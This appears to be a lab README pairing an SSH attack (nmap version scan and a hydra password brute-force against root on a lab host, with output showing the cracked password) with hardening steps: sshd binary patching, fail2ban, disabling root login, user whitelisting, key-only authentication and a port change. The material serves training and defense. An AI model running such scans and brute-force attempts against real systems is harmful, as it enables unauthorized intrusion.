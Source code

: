 # Attack

## SSH Version Discovery

Check if machine is reachable:

```bash
ping -c3 local.server
```

Run fast nmap service scan:

```bash
nmap -sV -F local.server
```

Results will be like:

```bash
Nmap scan report for local.server (10.2.29.83)
Host is up (0.0035s latency).
Not shown: 98 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
3389/tcp open  ms-wbt-server xrdp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see OpenSSH 8.2p1 on Ubuntu server

## SSH Bruteforce

During the ping scan for local.server, we found the IP address:

```bash
ping -c3 local.server

10.2.29.83
```

Now we run hydra with a custom wordlist for bruteforcing ssh password for user `root` :

```bash
hydra -l root -P /root/Desktop/wordlists/passwords.txt 10.2.29.83 ssh
```

We find the following results:

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 90 login tries (l:1/p:90), ~6 tries per task
[DATA] attacking ssh://10.2.29.83:22/
[22][ssh] host: 10.2.29.83   login: root   password: abc_123321!@@@
1 of 1 target successfully completed, 1 valid password found
```


# Defend

## Hide OpenSSH version from nmap scans

We will edit the version details by editing sshd binary using hexedit and remove OpenSSH version string or even the name from the binary itself, aka binary patching:

```bash
cp /usr/sbin/sshd /tmp/
hexedit /tmp/sshd
```

Press `TAB` to access ASCII side of the hex editor and `CTRL+S` to search for string value, then type `OpenSSH` and Enter.

Rewrite the entire line with `....` and press `CTRL+X` to save and exit. Press `Y` to confirm save and exit. Now replace the original sshd binary with patched binary:

```bash
cp /usr/sbin/sshd ~/Desktop/sshd_original.bak
cp /tmp/sshd /usr/sbin/
sudo service ssh restart
```

## Bruteforce Prevention - Fail2Ban

Enable fail2ban service:

```bash
systemctl enable fail2ban
```

Start fail2ban service:

```bash
systemctl start fail2ban
```

Check sshd jail status:

```bash
fail2ban-client status
```

## Block `root` Login

We will edit `sshd_config` file.
- Create a copy/backup of the config
- Change `PermitRootLogin` to `no` in config
- Restart ssh service

```bash
cp /etc/ssh/sshd_config /etc/ssh/sshd_config_original
nano /etc/ssh/sshd_config
service ssh restart
```

Trying to access as root for attacker will result in:

```bash
root@attackdefense:~# ssh root@10.2.29.83
The authenticity of host '10.2.29.83 (10.2.29.83)' can't be established.
ED25519 key fingerprint is SHA256:G5+SrVcs5gYpA7b/LGXMSF3pIYlBN2BdtZU0dJHkSy8.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.2.29.83' (ED25519) to the list of known hosts.
root@10.2.29.83's password: 
Permission denied, please try again.
```

## Whitelist User Access

Only certain users will be allowed to login via to ssh. We create new users in the machine using:

```bash
adduser john
adduser david
```

Allow users against ssh IP address inside ssh config.
- Create a copy/backup of the config
- Allowusers addition: `AllowUsers john@10.2.29.83 someother@192.158.1.38`
- Restart ssh service

```bash
cp /etc/ssh/sshd_config /etc/ssh/sshd_config_original
nano /etc/ssh/sshd_config
service ssh restart
```

Notice that david is not allowed against the IP.

## SSH Keys instead of Passwords

On legit user machine generate a ssh key:

```bash
ssh-keygen
```

Login to john@10.2.29.83 ssh account:

```bash
ssh john@10.2.29.83
```

Copy the generated key to ssh machine:

```bash
ssh-copy-id john@10.2.29.83
```

Perform SSH login again and login without password. Now we remove password authenticated completely from sshd_config on ssh server:

```bash
nano /etc/ssh/sshd_config
```

Set options:

```bash
PasswordAuthentication no
PubkeyAuthentication yes
```

## Change Default Port

Open sshd config and change port number to 2222 or anything else:

```bash
nano /etc/ssh/sshd_config
```

Change Option:

```bash
#Port 22
Port 2222
```
